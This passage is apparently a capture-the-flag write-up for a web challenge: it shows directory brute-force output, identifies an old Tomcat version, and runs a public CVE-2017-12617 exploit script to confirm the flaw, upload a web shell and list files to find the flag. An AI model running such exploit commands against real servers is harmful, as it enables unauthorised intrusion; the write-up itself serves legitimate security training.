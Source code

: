 ```
http://waltersblog3.chall.malicecyber.com/assets (Status: 302)
http://waltersblog3.chall.malicecyber.com/docs (Status: 302)
http://waltersblog3.chall.malicecyber.com/examples (Status: 302)
http://waltersblog3.chall.malicecyber.com/host-manager (Status: 302)
http://waltersblog3.chall.malicecyber.com/images (Status: 302)
http://waltersblog3.chall.malicecyber.com/index.html (Status: 200)
http://waltersblog3.chall.malicecyber.com/manager (Status: 302)
===============================================================
2020/11/17 23:18:22 Finished
===============================================================
```

At the page http://waltersblog3.chall.malicecyber.com/docs, we learn that the site is hosted with tomcat 9.0.0.M1

Then, with [exploit-db](https://www.exploit-db.com/) we find an exploit for this version [CVE-2017-12617](https://www.exploit-db.com/exploits/42966)

First, we chech if tomcat is vulnerable:

```
$ python2 cve-2017-12617.py -u http://waltersblog3.chall.malicecyber.com



   _______      ________    ___   ___  __ ______     __ ___   __ __ ______ 
  / ____\ \    / /  ____|  |__ \ / _ \/_ |____  |   /_ |__ \ / //_ |____  |
 | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / / 
 | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /  
 | |____   \  /  | |____    / /_| |_| || | / /       | |/ /| (_) | | / /   
  \_____|   \/   |______|  |____|\___/ |_|/_/        |_|____\___/|_|/_/    
                                                                           
                                                                           

[@intx0x80]


Poc Filename  Poc.jsp
http://waltersblog3.chall.malicecyber.com it's Vulnerable to CVE-2017-12617
http://waltersblog3.chall.malicecyber.com/Poc.jsp
```

It's vulnerable, so we can open a shell and read the flag:
```
$ python2 cve-2017-12617.py -u http://waltersblog3.chall.malicecyber.com -p pwn



   _______      ________    ___   ___  __ ______     __ ___   __ __ ______ 
  / ____\ \    / /  ____|  |__ \ / _ \/_ |____  |   /_ |__ \ / //_ |____  |
 | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / / 
 | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /  
 | |____   \  /  | |____    / /_| |_| || | / /       | |/ /| (_) | | / /   
  \_____|   \/   |______|  |____|\___/ |_|/_/        |_|____\___/|_|/_/    
                                                                           
                                                                           

[@intx0x80]


Uploading Webshell .....
$ ls
[...]
etc
flag.txt
home
```